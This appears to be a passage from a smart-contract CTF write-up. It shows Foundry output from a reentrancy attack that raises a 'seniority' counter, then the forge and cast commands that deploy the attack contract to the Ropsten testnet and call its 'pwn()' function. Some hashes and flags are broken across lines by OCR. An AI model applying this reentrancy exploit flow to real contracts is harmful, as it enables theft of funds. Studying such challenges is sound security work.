 
<font color="#4E9A06">Script ran successfully.</font>    
Gas used: 278997  
== Return == 
== Logs ==   
  seniority: 1    
  seniority: 2    
  seniority: 3    
  seniority: 4    
  seniority: 5    
  seniority: 6    
  seniority: 7    
  seniority: 8
  seniority: 9    
  seniority: 10
  </pre>
</div>

This output is typical of a reentrancy attack.

The final step is to deploy our contract to the **ropsten** blockchain and execute the pwn function. While deploying, ether has to be sent to the contract.

```bash
$ forge create --rpc-url https://ropsten.infura.io/v3/<API key>  --private-key <private key>
a4b7b56f3870d40feb26 test/token.t.sol:TokenTest --value 100 # value is required to send ether to the contract. Otherwise the buyHLB cannot work.
...
Deployer: 0xbafe3de2e4fbd28ce3d71db73b429cf13359f9e8
Deployed to: 0x0afd7d482b51834b1cad91c313d21425f1ad3f61
Transaction hash: 0xa927b9bc266083aed45944efef8bd147ebd0a50e681bd32c473beb1d4e7e2c3
7
```

The function pwn can then be called.

```bash
$ cast send 0x0afd7d482b51834b1cad91c313d21425f1ad3f61 "pwn()"
  --rpc-url https://ropsten.infura.io/v3/<API key> --private
-key <private key>
...
transactionHash         0x17621fe1437f1ec5e6f9533aaf864d7a60bae4d54293f21d5290982dc
42ea2bd
...
```
